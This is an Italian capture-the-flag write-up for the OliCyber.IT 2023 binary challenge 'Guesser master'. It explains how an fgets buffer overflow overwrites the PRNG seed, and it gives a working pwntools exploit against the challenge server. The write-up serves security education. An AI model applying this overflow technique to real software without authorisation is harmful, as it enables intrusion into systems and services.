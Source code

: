 # OliCyber.IT 2023 - Competizione Nazionale
1
## [binary] Guesser master (32 risoluzioni)

La challenge è un normale binario linkato dinamicamente. All'esecuzione il binario chiede un input, lo confronta con dei dati segreti apparentemente generati casualmente ad ogni esecuzione. Se le stringhe sono uguali, il binario stampa la flag, altrimenti chiude la connessione.

### Soluzione

I dati sono effettivamente generati casualmente, se andiamo a fare un po' di reverse engineering del binario. Vediamo che nel main viene chiamata la funzione `srand` della libc, che setta il seed del PRNG della libreria standard del C. Il seed viene settato ad una variabile locale che era stata precedentemente popolata con dei byte casuali letti effettivamente da `/dev/urandom`, usando una funzione che in C, dopo un po' di reverse engineering, si può scrivere

```c

void rand32(unsigned int *r) {
  FILE *f = fopen("/dev/urandom", "r");
  unsigned long rv = fread(r, sizeof(*r), 1, f);
  if (rv != 1) {
    fprintf(stderr, "Error reading from /dev/urandom. Please contact a gabibbo");
    exit(1);
  }
  fclose(f);
}
```

Sembra quindi che i dati siano davvero random. Non c'è speranza quindi di indovinarli utilizzando qualche trucco crittografico. Tuttavia notiamo però che l'ordine in cui vengono eseguite le azioni è il seguente:

```c
  rand32(&seed);
  printf("input: ");
  fgets(password, 0x200, stdin);
  srand(seed);

  for (int i = 0; i < 0x100-1; i++) {
    g_password[i] = rand() % 0x19 + 0x41;
  }

```

Quindi il seed random viene settato dopo che noi abbiamo inserito il nostro input, cosa che è abbastanza strana. In effetti, controllando la dimensione delle variabili, possiamo notare che la `fgets` non scrive solo su `password`, ma scrive anche oltre, in quanto la variabile `password` è più corta di 0x200 caratteri. Utilizzando per esempio `Edit stack frame` di ghidra, possiamo notare come dopo la variabile password ci sia proprio il seed random che è appena stato pescato da `/dev/urandom`.

La strategia è quindi:

- sovrascrivere il seed random con un valore noto
- calcolare in parte la password che genererebbe questo seed
- dare la password corretta al programma

Per essere ancora più pigri, possiamo eseguire localmente il programma usando gdb, fornire l'input che sovrascrive il seed random ed esaminare la memoria in cui è salvata la password che dobbiamo copiare. In questo modo non dobbiamo nemmeno capire l'algoritmo che genera la password.

### Exploit

```python
#!/usr/bin/env python3

from pwn import ELF, context, process, flat, p64, args, remote
import os
import logging

logging.disable()

exe = context.binary = ELF(os.path.dirname(os.path.realpath(__file__)) + '/guesser_master')
HOST = os.environ.get("HOST", "guessmaster.challs.olicyber.it")
PORT = int(os.environ.get("PORT", 35006))


io = process([exe.path], env={"FLAG": "flag{test}"}) if args.LOCAL else remote(HOST, PORT)
# ui.pause()
io.sendlineafter(b"input: ", flat({
    0x0: b"ILCPSKLRYVMCPJNBPBWLLSREHFMXRKECWITRSGLREXVTJMXYPUNBQFGXMUVGFAJCLFVENHYUHUORJOSAMIBDNJDBEYHKBSOMBLTOUUJDRBWCRRCGBFLQPOTTPEGRWVGAJCRGWDLPGITYDVHEDTUSIPPYVXSUVBVFENODQASAJOYOMGSQCPJLHBMDAHYVIUEMKSSDSLDEBESNNNGPESDNTRRVYSUIPYWATPFOELTHROWHFEXLWDYSVSPWLKFBLFD\x00",
    0x100: p64(0),
}))
io.recvuntil(b"Flag: ")
flag = io.recvline().decode().strip()
print(flag)
io.close()

```

